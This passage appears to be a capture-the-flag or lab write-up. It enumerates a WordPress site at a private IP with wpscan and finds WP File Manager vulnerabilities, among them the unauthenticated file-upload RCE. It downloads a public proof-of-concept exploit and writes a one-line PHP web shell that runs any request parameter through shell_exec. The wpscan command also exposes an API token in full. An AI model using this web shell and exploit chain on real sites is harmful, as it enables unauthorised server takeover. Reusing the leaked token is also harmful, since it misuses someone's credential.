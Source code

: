 ```bash
 wpscan --url http://192.168.100.65/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=yocj0asWxCFcZvF1sdI9ocg10i7x5sDnwtZsXYhvIMuVszR23h2VIF1A
```
seems that we found some vulnerabilyties with the api token, that the page of WSPscan gave us.

```php
 | [!] 3 vulnerabilities identified:
 |
 | [!] Title: File Manager < 6.5 - Backup File Directory Listing
 |     Fixed in: 6.5
 |     References:
 |      - https://wpscan.com/vulnerability/49533dc2-17cb-459c-af28-69a7b9b9512f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24312
 |      - https://zeroaptitude.com/zerodetail/wordpress-plugin-bug-hunting-part-1/
 |      - https://plugins.trac.wordpress.org/changeset/2326268/wp-file-manager
 |
 | [!] Title: File Manager 6.0-6.9 - Unauthenticated Arbitrary File Upload leading to RCE
 |     Fixed in: 6.9
 |     References:
 |      - https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213
 |      - https://blog.nintechnet.com/critical-zero-day-vulnerability-fixed-in-wordpress-file-manager-700000-installations/
 |      - https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/
 |      - https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/
 |      - https://blog.sucuri.net/2020/09/critical-vulnerability-file-manager-affecting-700k-wordpress-websites.html
 |      - https://twitter.com/w4fz5uck5/status/1298402173554958338
 |
 | [!] Title: WP File Manager < 7.1 - Reflected Cross-Site Scripting (XSS)
 |     Fixed in: 7.1
 |     References:
 |      - https://wpscan.com/vulnerability/1cf3d256-cf4b-4d1f-9ed8-e2cc6392d8d8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24177
 |      - https://n4nj0.github.io/advisories/wordpress-plugin-wp-file-manager-i/
 |      - https://plugins.trac.wordpress.org/changeset/2476829/
```

- we have to use them using the URL's that we recived from the [output](https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9). now we have to wget that proof of concept.

```bash
wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py
 ```
 something to consider is that after we analizy the code in the line 72 according with it the script is calling "payload.php" so we must to create before we execute this script.
 
 ```bash
 nvim payload.php
❯ cat payload.php
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: payload.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ echo "<pre>" . shell_exec($_REQUEST['cmd'])  .  "</pre";
   3   │ ?>
───────┴──────

 ```
 after we save it we must execute it using python3, example.
 